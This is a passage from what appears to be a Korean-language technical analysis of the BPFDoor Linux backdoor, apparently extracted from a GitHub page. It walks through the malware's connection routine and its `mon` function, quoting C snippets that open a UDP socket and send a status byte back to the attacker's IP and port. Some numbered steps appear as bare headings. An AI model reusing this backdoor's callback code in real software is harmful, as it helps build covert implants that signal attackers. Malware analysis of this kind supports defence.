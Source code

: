     - `AF_INET`: IPv4 주소 패밀리을 사용
    - `SOCK_STREAM`: TCP(스트림 지향) 소켓 타입
    - `0`: 기본 프로토콜(TCP의 경우 `IPPROTO_TCP`) 사용

4. **주소 패밀리 및 포트 설정**

5. **연결 시도**

    - 생성된 소켓을 사용하여 원격 서버에 연결을 시도한다.

    - 연결 시도에 실패하면 소켓을 닫고 `-1`을 반환, 연결에 성공하면 연결이 설정된 소켓의 파일 디르크립터인 `sock`을 반환한다. 이 소켓은 이후 `shell` 함수를 통해 통신하는 데에 사용된다.

<br>

### (주요 함수 분석) mon

- 패스워드가 불일치할 때(`socket`, `justforfun` 모두 아닌 경우) 호출되는 함수로, 공격자의 IP 주소와 공격자가 정한 port로 데이터 `1`을 전송하는 함수이다. BPFDoor 연결이 정상적으로 되었는지를 확인할 수 있는 기능을 수행한다.

<br>

1. **함수 시그니처**

    ```c
    int mon(in_addr_t ip, unsigned short port)
    ```

    - `ip`: 소켓을 통해 데이터를 전달할 ip 주소를 받는 매개변수. 호출되는 부분에서 **공격자의 IP**가 인자로 전달된다.
    - `port`: 소켓을 통해 전달할 주소의 port를 받는 매개변수. 호출되는 부분에서 **공격자가 매직 패킷으로 전달한 port 번호**가 인자로 전달된다.

2. **소켓 생성**

    ```c
    if ((sock = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP)) < -1) {
        return -1;
    }
    ```

    - 다음 인자들을 전달하여 소켓을 생성하여 `sock` 변수에 저장한다.
        - `AF_INET` : IPv4 주소를 사용
        - `SOCK_DGRAM` : 비연결 지향형 소켓
        - `IPPROTO_UDP` : UDP를 기반으로 하는 소켓을 생성(비연결 지향형 소켓)

3. **소켓 연결 정보 구조체 설정**

4. **소켓으로 데이터 전송**

    ```c
    if ((s_len = sendto(sock, "1", 1, 0, (struct sockaddr *)&remote, sizeof(struct sockaddr))) < 0) {
        close(sock);
        return -1;
    }
    ```

    - UDP/IP 통신에서 소켓으로 데이터를 전송하는 `sendto` 함수를 통해 앞에서 설정한 소켓과 연결 정보로 메시지 `1`을 전달한다.
    - `sendto` 함수는 전송된 총 데이터의 크기를 반환하여 `s_len` 변수에 저장한다.

5. **소켓 정리 및 return**
